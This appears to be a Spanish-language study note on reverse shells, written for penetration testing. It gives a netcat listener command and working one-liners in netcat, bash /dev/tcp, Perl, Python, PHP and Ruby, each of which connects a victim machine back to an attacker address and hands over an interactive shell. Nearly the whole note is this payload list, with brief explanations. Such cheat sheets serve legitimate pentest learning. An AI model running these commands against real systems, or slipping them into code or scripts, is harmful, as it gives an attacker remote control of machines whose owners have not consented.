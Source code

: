 ___

- Tags: #herramientas #reverse-shell #netcat #explotación #enumeración #ipv4 #redes 

___
# Introducción

En el ámbito de la seguridad informática, la técnica de "**Reverse Shell**" es una estrategia utilizada por los expertos en ciberseguridad para evaluar y asegurar sistemas. Esta técnica implican el establecimiento de conexiones remotas para ejecutar comandos en máquinas comprometidas o realizar exploración de red. A continuación, nos centraremos en la técnica de "**Reverse Shell**" y proporcionaremos ejemplos de comandos comúnmente utilizados.

---

# Comandos para Reverse Shell:

1. **Escucha en un puerto:**

   ```bash
   nc -lvp puerto
   ```
   
   Este comando coloca la máquina atacante en modo escucha, esperando la conexión de la máquina víctima para establecer una **shell inversa**.

2. **Enviar una shell a la máquina atacante:**
   
   ```bash
   nc -e /bin/bash ip-atacante puerto
   ```
   
   Con este comando, se envía una **shell** a la máquina atacante. La máquina víctima se conecta al servidor de escucha y ejecuta una instancia de la **shell** especificada.

___
# Alternativas sin netcat:

1. **Bash**: 

   ```bash
   bash -i >& /dev/tcp/ip-atacante/puerto 0>&1
   ```

   En situaciones donde la máquina víctima no cuenta con [[Netcat]], este comando proporciona una alternativa. Establece una conexión a través de Bash utilizando redirecciones para la entrada y salida estándar, logrando una **shell inversa**.

2. **Perl:**

   ```bash 
   perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
   ```
   
   El código en Perl establece una conexión [[TCP]] y ejecuta una shell interactiva.

3. **Python:**

   ```bash
   python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   ```
   
   Este script en Python crea una conexión [[TCP]] y ejecuta una shell interactiva.

4. **PHP:**

   ```bash
   php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
   ```
   
   El código en PHP utiliza `fsockopen` para abrir una conexión y ejecutar una shell.

5. **Ruby:**

   ```bash
   ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
   ```
   
   El script Ruby crea una conexión [[TCP]] y ejecuta una shell interactiva.

